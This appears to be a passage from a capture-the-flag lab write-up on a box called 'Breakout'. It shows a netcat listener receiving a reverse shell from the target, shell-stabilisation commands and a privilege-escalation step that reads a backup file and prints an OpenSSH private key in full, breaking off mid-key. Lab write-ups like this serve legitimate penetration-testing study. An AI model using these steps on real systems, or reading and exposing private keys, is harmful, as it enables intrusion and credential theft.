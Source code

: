```
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Breakout]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [192.168.45.5] from (UNKNOWN) [192.168.168.182] 39226
bash: cannot set terminal process group (339): Inappropriate ioctl for device
bash: no job control in this shell
git@breakout:~/gitlab-workhorse$
```

So lets stabilize the shell

```
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
CTRL + Z
stty raw -echo;fg
reset
```

Cool now lets escalate priv

On checking the backups directory i see an idrsa file

```
git@breakout:~$ cd backups
cd backups
git@breakout:~/backups$ ls -al
ls -al
total 12
drwx------  2 git  root 4096 Mar  3  2022 .
drwxr-xr-x 20 root root 4096 Jan 23 09:40 ..
-rwxr-xr-x  1 root root 2602 Mar  3  2022 mykey
git@breakout:~/backups$ cat mykey
cat mykey
-----BEGIN OPENSSH PRIVATE KEY-----
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
```